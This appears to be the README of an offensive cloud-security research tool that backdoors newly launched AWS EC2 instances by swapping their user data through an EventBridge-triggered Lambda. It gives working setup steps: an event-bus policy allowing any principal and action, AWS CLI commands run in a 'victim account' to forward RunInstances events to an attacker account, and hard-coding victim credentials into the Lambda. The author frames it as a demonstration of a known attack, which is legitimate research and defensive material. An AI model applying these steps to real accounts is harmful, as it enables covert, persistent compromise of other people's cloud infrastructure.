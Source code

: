 # UserDataSwap

User data swap is an example of an automated lambda function that runs that swaps out user data on RunInstance events. The original user data script is restored after ours is run.

This exists as an example of how an attacker could semi-covertly backdoor EC2 instances on creation. The API calls will stand out, but from the user's perspective the instance is simply taking longer to start up. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

Currently there is a five minute delay between when the new instance comes up and when it is backdoored, this is to work around issues with bootstrapping at the moment. Hope to find another way to do this in the future, but we'll see.

## Wish List
* Play nicely with bootstrapping (User Data or the Terraform SSH provider) without adding a delay.
* Target individual instances or tags
* Configurable options for logging, commands run at boot, etc.

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only requires `events:PutRule` and `events:PutTargets` permissions. I'll likely add support for this in the future, for now you can try the following to do this manually.

* In the UsereDataSwap account:
  * In the UserDataSwap lambda account create a new event bus named `run-instance-trigger` and give it the following resource policy.
  WARNING: This will allow any AWS account to run any action against this event bus.
  TODO: Figure out the exact permissions needed for this.
  ```
  {
    "Version": "2012-10-17",
    "Statement": [{
      "Sid": "allow_account_to_put_events",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "*",
      "Resource": "<this event bus arn>"
    }]
  }
  ```

  * Set up a rule to trigger the UserDataSwap function with the following event config.

  ```
  {
    "source": [
      "aws.ec2"
    ],
    "detail": {
      "eventSource": [
        "ec2.amazonaws.com"
      ],
      "eventName": [
        "RunInstances"
      ]
    }
  }
  ```
* In the victim account:
  * Create the run-instances event trigger:
```
  aws --profile victim-account events put-rule --name run-instance-trigger --state ENABLED --event-bus-name default --event-pattern '{
    "source": ["aws.ec2"],
    "detail": {      
      "eventSource": ["ec2.amazonaws.com"],
      "eventName": ["RunInstances"]
    }
  }'
```
  * Add a target to forward to the event-bus in the UserDataSwap account:
```
  aws events put-targets --rule run-instance-trigger --event-bus-name default --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
```
* You should see the UserDataSwap triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack with different pros/cons take a look at [EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on [my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Takeaway

What I was hoping to demonstrate is what I described as Cloud Malware in my talk doesn't need to be complex.

## Requirements

* AWS CLI already configured with Administrator permission
* [Docker installed](https://www.docker.com/community-edition)
* [Golang](https://golang.org)
* SAM CLI - [Install the SAM CLI](https://docs.aws.amazon.com/serverless-application-model/latest/developerguide/serverless-sam-cli-install.html)

## Setup process

### Installing dependencies & building the target 

```shell
make build
```

## Deployment

```bash
make deploy
```

### Testing

TODO
